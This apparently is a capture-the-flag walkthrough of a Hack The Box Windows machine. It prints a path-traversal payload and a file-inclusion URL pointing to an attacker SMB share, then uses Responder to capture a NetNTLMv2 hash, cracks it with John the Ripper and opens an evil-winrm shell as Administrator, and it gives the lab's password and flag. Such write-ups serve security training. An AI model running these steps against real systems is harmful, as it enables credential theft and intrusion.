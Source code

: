 Nmap scanning:
~~~
nmap 10.129.33.185 -sC -sV
~~~

~~~
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-13 14:27 EDT
Nmap scan report for 10.129.33.185
Host is up (0.35s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.15 seconds
~~~

~~~
nano /etc/hosts
~~~

![[hosts.png]]


after the testing in the website we find that the webpage is vulnerable to file inclusion vuln

windows default host path 

~~~
../../../../..\Windows\System32\Drivers\etc\hosts
~~~


![[windowspath.png]]


include methos is responsible for file inclusion because .in this method is being process the url parameter of the page and serving the different page for the different languages 
and this method take the text code in the specified and loads it into the memory 

so we use the smb(sever message blocker) to send the malicious file to host and  the windows will try to authenticate to our machine and we can capture the NEtNTLMV2

NTLM is a collection of authentication protocols created by Microsoft. It is a challenge-response  
authentication protocol used to authenticate a client to a resource on an Active Directory domain


we responder tool for capture the credentials 

![[responder.png]]


~~~
http://unika.htb/index.php?page=//10.10.14.122/12345.txt
~~~


![[lfi 1.png]]


decrypt the hash with john the ripper

~~~
john -w=/home/subhash/Downloads/rockyou.txt hask.txt
~~~~

~~~
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
badminton        (Administrator)     
1g 0:00:00:00 DONE (2023-06-14 12:22) 50.00g/s 204800p/s 204800c/s 204800C/s adriano..oooooo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
~~~~


after get the username and password for the ip address we try to get the shell with the evil-winrm

~~~
evil-winrm -i 10.129.33.185 -u Administator -p badminton
~~~~

![[evil-wnrm.jpeg]]


![[flag.jpeg]]

flag ea81b7afddd03efaa8945333ed147fac

finally got the flag!!!!!

